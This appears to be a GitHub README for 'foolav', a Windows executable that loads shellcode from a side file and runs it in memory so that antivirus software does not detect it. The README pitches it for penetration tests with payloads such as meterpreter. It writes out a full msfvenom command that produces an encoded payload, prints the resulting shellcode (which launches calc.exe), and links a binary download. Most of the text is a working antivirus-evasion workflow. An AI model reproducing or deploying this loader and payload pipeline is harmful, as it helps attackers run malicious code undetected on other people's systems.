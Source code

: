 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

x86 binary will run on both x86 and x86_64 Windows systems. In case when payload is a meterpreter, you should have no issues when migrating x86 meterpreter to x86_64 processes.

## Usage steps

1. prepare one-line payload (x86), e.g.
   ```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" ; echo
   ```
2. save as [executable-name-without-exe-extension].mf in same directory as executable
   payload running calc.exe generated using above command:
   ```
   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
   ```
3. once executable is run, payload will be parsed, loaded into separate thread and executed in memory:
   
   ![screen](https://cloud.githubusercontent.com/assets/4956006/12366078/2c13213c-bbd9-11e5-8fc9-a7a62194158e.png)

## Download

https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)
